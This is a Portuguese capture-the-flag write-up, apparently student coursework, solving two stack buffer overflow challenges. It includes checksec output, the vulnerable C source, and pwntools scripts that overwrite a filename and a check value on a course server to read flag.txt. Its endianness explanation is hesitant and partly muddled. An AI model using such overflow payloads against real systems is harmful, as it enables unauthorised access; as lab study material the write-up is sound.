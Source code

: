 # CTF5

Para podermos realizar este `ctf` devemos primeiro encontrar algumas informações que nos possam ser úteis, neste caso através do `checksec program` e descobrimos o seguinte:

`Arch: i386-32-little` → arquitetura de 32-bits little-endian 

 `RELRO: No RELRO` → o RELRO (RELocations Read-Only ) encontra-se desativado, ou seja não previne certas partes da memória do executável de serem escritas, como o GOT (Global Offset Table)

`Stack: No canary found` → mecanismo de defesa contra buffer overflows encontra-se destivado

`NX: NX disabled` → NX (No-eXecute), que é um mecanismo de defesa que evita a execução de código em certas partes da memória, como a stack, está desativado

`PIE: No PIE (0x8048000)` → PIE (Position Independent Executable) ,que permite que um ficheiro executável seja carregado em qualquer endereço de memória sem precisar de ser alterado, está também desativado.

`RWX: Has RWX segments` → RWX (Read, Write, Execute) o que significa que alguns segmentos presentes têm todas as permissões.

### Análise

```jsx
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }

    fflush(stdout);
    
    return 0;
}
```

Analisando o código verificamos que o scan lê até 40 bytes, no entanto o buffer só tem o tamanho de 32, logo podemos, através de input, dar overflow ao buffer.

Verificamos também que o ficheiro guardado em meme_file é lido para o ficheiro fd, o qual é printed abaixo, logo, se conseguirmos substituir o file guardado em meme_file pelo  pelo file que contêm a flag, neste caso a flag.txt, concluimos o ctf.

Sabendo que a arquitetura é little endian sabemos que as entradas na memória vão do maior para o menor, e como o buffer cresce no sentido contrário da stack então podemos adicionar o texto do modo normal que ficará corretamente guardado no buffer (nem sei se isto é uma cena pareceu correto), 

Para tal devemos dar primeiro overflow ao buffer com o `32 * ‘A’` (escrevemos 32 caracteres) e substituímos `mem.txt\0` pelo ficheiro da flag, deste modo ele vai dar print à flag.txt em vez de dar print ao mem.txt dando-nos assim acesso à flag

```python
from pwn import *
io = remote('ctf-fsi.fe.up.pt', 4003)
io.sendline(b'A' * 32 + b'flag.txt\0')
io.interactive()
```

Após correr o ctf obtemos:

![ctf5_1](images\ctf5_1.png)

## CTF_2

No `ctf` 2 a mesma lógica se aplica para resolver o ctf, sendo este bastante semelhante ao primeiro,

### Análise:

```python
#include <stdio.h>
#include <stdlib.h>

int main() {
    char val[4] = "\xef\xbe\xad\xde";
    char meme_file[9] = "mem.txt\0\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

Neste ctf usamos a mesma lógica do ctf anterior a dar overflow ao buffer e tentar dar overwrite ao meme_file para lermos a flag, no entanto neste ctf temos um obstáculo adicional, temos de dar overwrite a val com o valor 0xfefc2324,caso contrário nada será lido para o ficheiro fd, neste caso como escrevemos em hexadecimal e é little endian (guarda em ordem contrária), devemos escrever na ordem contrário, estando assim val overwritten, podemos dar overwrite a meme_file e acedemos novamente à flag. 

```python
from pwn import *
io = remote('ctf-fsi.fe.up.pt', 4000)
io.sendline(b'A'*32 + b"\x24\x23\xfc\xfe"+ b"flag.txt\0")
io.interactive()
```

Com isto, obtivemos este resultado:

![ctf5_2](images\ctf5_2.png)